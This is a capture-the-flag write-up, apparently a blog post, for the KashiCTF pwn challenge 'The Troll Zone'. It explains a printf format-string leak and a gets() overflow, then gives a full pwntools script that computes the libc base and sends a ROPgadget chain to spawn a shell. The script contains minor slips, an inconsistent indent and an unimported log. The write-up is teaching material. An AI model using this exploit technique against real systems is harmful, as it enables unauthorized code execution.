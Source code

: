 ```yaml
---
title: The Troll Zone
date: 2025-02-24 +05:30
author: kliprmimo
categories: [pwn]
tags: [gdb, rop]
---
```



# The Troll Zone
## Description
category: pwn\
solves: 43\
point value: 452
## Overview
The file we got is x86_64 binary \
![](attachments/kashi_checksec.png)

it does have very little protections enabled:\
`Partial RELRO` -  we can overwrite got entries\
`No canary found` - if there is buffer overflow we can overwrite return pointer without worrying about canary check triggering\
`NX enabled` - there is protection against execution of machine code placed on the stack\
`No Pie (0x400000)` - binary is always loaded at the same address in memory\
We also are provided libc file
## Exploitation plan
### Vulnerabilities
code decompiled by ida:\
![](attachments/kashi_main.png)\
![](attachments/kashi_troll.png)\
there are two vulnerabilities in this code:
- `printf(s)` - using `printf` on buffer controlled by user is very dangerous, using `%p` `%x` (and many others) we can read values saved in registers `( _RSI, RDX, RCX, R8, R9_)` and on stack. We can also have arbitrary memory write using `%n` modifier.
- `gets(v4)` - gets function is dangerous function that should never be used. This function takes data to specified buffer with no length checking whatsoever which can lead to buffer overflow
### How can this be exploited?
What is usually required to *typical* ROP attack is some gadgets to set registers to correct values for [execve syscall](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) on `/bin/sh` to get reverse shell. Sadly there are not enough gadgets in vuln binary. Luckily there is plenty of such gadgets in libc. \
But in order to use this technique we need to know where in memory is libc loaded.\
We can use vulnerable `printf` function to find address of some function in libc (lack of Pie does not work here). Using that we can find base address at which libc is loaded at. From there we can use ROPgadget program to generate python script that prepares correct payload for this ROP\
`ROPgadget --binary libc.so.6 --ropchain`
## Exploitation

### getting libc address
On we run patched binary in gdb and break on vulnerable `printf` (to patch binary you can use [pwninit](https://github.com/io12/pwninit) or just patchelf)\
using `%<number>$p` we dump values from registers and stack.\
for my exploit i used value at `%17$p` which happened to be `0x7ffff7e0924a`\
![](attachments/kashi_gdb_libc.png)\
using `vmmap` command we can find base address of libc (locally)\
thanks to that we can calculate offset that leaked address is at (from the base of libc)\
`0x2724a=0x7ffff7e0924a-0x7ffff7de2000`\
We can use that offset when we leak the address in remote exploit. We need to subtract this offset from leaked address and we get remote libc base address. now we just need to use this value in payload from ROPgadget

```python
#!/usr/bin/env python3

from pwn import context, process, remote, gdb, args, ELF
from struct import pack

context.log_level = 'info'
context.terminal = ["tmux", "splitw", "-h"]

addr = "kashictf.iitbhucybersec.in"
port = 1337
elf = ELF("./vuln_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")
context.binary = elf
libc = elf.libc

gdbscript = '''
    tbreak main
    '''.format(**locals())


def conn(argv=[], *a, **kw):
    if args.LOCAL:
        r = process([elf.path])
        if args.GDB:
            return gdb.debug([elf.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        r = remote(addr, port)

    return r


leaked_offset = 0x7ffff7e0924a-0x7ffff7de2000


def main():
    log.info('Starting')

    r = conn()
    r.recvuntil(b'What do you want?')
    r.sendline(b'%17$p')
    r.recvuntil(b"0x")
    ptr = r.recvuntil(b"\n")
    ptr = ptr[:-1].decode()
    ptr = int(ptr, 16)
	log.info(f'Leaked addres {hex(ptr)}')

    libc_base = ptr - leaked_offset
    log.info(f'Got libc base {hex(libc_base)}')
    
    ### Output of ROPgadget
    p = b'a' * 40
    p += pack('<Q', libc_base + 0x00000000000fde7d)  # pop rdx ; ret
    p += pack('<Q', libc_base + 0x00000000001d21c0)  # @ .data
    p += pack('<Q', libc_base + 0x000000000003f197)  # pop rax ; ret
    p += b'/bin//sh'
    p += pack('<Q', libc_base + 0x00000000000353ac)  # mov qword ptr [rdx], rax ; ret
    p += pack('<Q', libc_base + 0x00000000000fde7d)  # pop rdx ; ret
    p += pack('<Q', libc_base + 0x00000000001d21c8)  # @ .data + 8
    p += pack('<Q', libc_base + 0x00000000000af985)  # xor rax, rax ; ret
    p += pack('<Q', libc_base + 0x00000000000353ac)  # mov qword ptr [rdx], rax ; ret
    p += pack('<Q', libc_base + 0x00000000000277e5)  # pop rdi ; ret
    p += pack('<Q', libc_base + 0x00000000001d21c0)  # @ .data
    p += pack('<Q', libc_base + 0x0000000000028f99)  # pop rsi ; ret
    p += pack('<Q', libc_base + 0x00000000001d21c8)  # @ .data + 8
    p += pack('<Q', libc_base + 0x00000000000fde7d)  # pop rdx ; ret
    p += pack('<Q', libc_base + 0x00000000001d21c8)  # @ .data + 8
    p += pack('<Q', libc_base + 0x00000000000af985)  # xor rax, rax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x000000000009bc69)  # inc eax ; ret
    p += pack('<Q', libc_base + 0x0000000000026428)  # syscall
    r.sendline(p)

    r.interactive()


if __name__ == "__main__":
    main()

```
Combining quite lengthy outpout of `ROPgadget` with our calculated libc address we get this exploit, that gives us reverse shell! \
![](attachments/kashi_flag.png)\
\
flag: `KashiCTF{did_some_trolling_right_there_3hbM6wHf}`
